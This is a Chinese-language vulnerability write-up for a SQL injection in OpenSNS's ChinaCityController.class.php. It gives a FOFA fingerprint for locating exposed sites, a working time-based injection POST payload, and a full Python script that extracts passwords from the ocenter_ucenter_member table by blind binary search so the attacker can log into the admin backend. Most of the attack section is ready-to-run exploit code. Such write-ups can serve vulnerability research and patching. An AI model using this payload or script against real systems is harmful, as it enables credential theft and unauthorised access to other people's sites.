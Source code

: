 # OpenSNS ChinaCityController.class.php SQL注入漏洞

## 漏洞描述

OpenSNS ChinaCityController.class.php文件中，可通过拼接SQL语句执行任意SQL命令，获取用户账号密码

## 漏洞影响

```
OpenSNS
```

## FOFA

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154243943](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181542003.png)

存在漏洞的文件为`Addons/ChinaCity/Controller/ChinaCityController.class.php`

![image-20220518154255819](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181542896.png)

其中用户可控参数为 cid 和 pid, 通过调试查看SQL语句

![image-20220518154306977](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181543058.png)

通过构造请求闭合SQL语句，造成SQL注入

```
POST /index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html

cid=0&pid[0]==(select*from(select+sleep(3)union/**/select+1)a)and+1+in+&pid[1]=1
```

![image-20220518154329027](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181543124.png)

```python
通过二分法延时注入可以获取用户账号密码，登录后台

import time
import requests

url = "http://peiqi.com:8888/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"

flag = ""
for i in range(1,100):
    low = 32
    high = 128
    while low < high:
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "X-Requested-With": "XMLHttpRequest"
        }
        mid = (low + high)//2
        data = "cid=0&pid[0]==(select*from(select+if(ascii(substr((select/**/password/**/from/**/ocenter_ucenter_member),{},1))<{},sleep(2),1)union/**/select+1)a)and+3+in+&pid[1]=3".format(i,mid)
        timeStart = time.time()
        r = requests.post(url=url, data=data, headers=headers)
        timeEnd = time.time()
        # print(r.text, low, high, data,timeStart-timeEnd)
        if timeEnd - timeStart >= 1: 
            high = mid
        else:
            low = mid + 1
    if low == high == 32:
        print("No  result")
        break
    flag += chr((high + low - 1)//2)
    print(flag)
```

![image-20220518154353118](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181543205.png)